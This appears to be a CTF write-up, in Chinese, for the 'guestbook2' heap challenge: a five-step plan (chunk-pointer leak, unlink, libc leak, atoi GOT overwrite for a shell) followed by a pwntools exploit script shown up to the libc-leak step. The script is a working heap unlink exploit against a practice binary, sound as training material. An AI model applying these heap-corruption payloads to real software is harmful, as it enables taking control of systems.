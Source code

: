 * #### Guestbooks2

   chunk0储存chunk指针

   1. free chunk4、chunk2，此时chunk2的fd指向chunk4
   2. edit chunk1，覆盖到chunk2的fd前，list可获得chunk4地址
   3. unlink
   4. 泄露libc
   5. 改atoi的got，getshell

   ```python
   from pwn import *
   context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
   #r = remote('pwn.jarvisoj.com',9879)
   #context.log_level = "debug"
   r = process(['./guestbook2'],env = {"LD_PRELOAD":"./libc.so.6"})
   elf = ELF('./guestbook2')
   libc = ELF('./libc.so.6')
   
   def list():
   	r.sendlineafter('Your choice:','1')
   
   def new(post):
   	r.sendlineafter('Your choice:','2')
   	r.sendlineafter('Length of new post:',str(len(post)))
   	r.sendlineafter('Enter your post:',post)
   
   def edit(index, post):
   	r.sendlineafter('Your choice:','3')
   	r.sendlineafter('Post number:',str(index))
   	r.sendlineafter('Length of post:',str(len(post)))
   	r.sendlineafter('Enter your post:',post)
   
   def delete(index):
   	r.sendlineafter('Your choice:','4')
   	r.sendlineafter('Post number:',str(index))
   
   for i in range(10):
   	new('f**k')
   
   #leak heap
   delete(3)
   delete(1)
   padding = 'f**k' * ((0x80 + 0x10)/4)
   edit(0, padding)
   list()
   r.recvuntil(padding)
   chunk3 = u64(r.recvuntil("\x0a", drop = True).ljust(8, '\x00'))
   heap_base = chunk3 - 6176 - 0x90 * 3
   chunk0 = heap_base + 0x30
   print(heap_base)
   print(chunk0)
   #unlink
   payload = p64(0x90) + p64(0x80) + p64(chunk0 - 0x18) + p64(chunk0 - 0x10)
   payload += 'f**k' * ((0x80 - 4 * 8)/4)
   payload += p64(0x80) + p64(0x90) + 'f**k' * (0x70/4)
   edit(0, payload)
   delete(1)
   gdb.attach(r)
   #leak libc
   payload = p64(2) + p64(1) + p64(0x100) + p64(chunk0 - 0x18)
   payload += p64(1) + p64(0x8) + p64(elf.got["atoi"])
   payload = payload.ljust(0x100, '\x00')
   edit(0, payload)
   list()
   ```
